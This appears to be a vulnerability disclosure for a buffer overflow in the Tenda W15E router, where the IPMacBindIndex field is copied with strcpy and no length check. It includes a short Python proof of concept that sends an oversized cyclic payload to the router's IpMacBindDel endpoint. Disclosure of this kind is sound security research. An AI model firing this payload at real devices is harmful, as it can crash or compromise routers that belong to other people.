 # W15E buff overflow vulnerability
Vendor: Tenda W15E
Version: US_W15EV1.0br_V15.11.0.13(1068_1523_841)_CN_TDC

Description：There is a buff overflow vulnerability in W15E router. The function is 0x000690C8. IndexSet gets the content of IPMacBindIndex and uses the strcpy without check the length, which result in buffer overflow.

The static analysis is as follows: 
![image](https://github.com/sezangel/IOT-vul/assets/89381625/a1594de5-f831-46b2-875b-f488f77deb89)

POC:

```python
import requests
from pwn import *

url='http://192.168.100.2/goform/IpMacBindDel'
payload=cyclic(500)
header={
'Host': '192.168.100.2',
'User-Agent':'Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:92.0) Gecko/20100101 Firefox/92.0',
'Accept':'*/*',
'Accept-Language':'en-US,en;q=0.5',
'Accept-Encoding':'gzip, deflate',
'Content-Type':'application/x-www-form-urlencoded; charset=UTF-8',
'X-Requested-With':'XMLHttpRequest',
'Origin':'http://192.168.100.2',
'Connection':'close',
'Referer':'http://192.168.100.2/mac_filter.html?random=0.008005922687726486&',
'Cookie':'password=17399d7fb9cf0644a1f50f015116919dcabazx'} 

data1 ='IPMacBindIndex=%s'%payload
ret = requests.post(url = url ,headers = header,data = data1, verify=False)
```



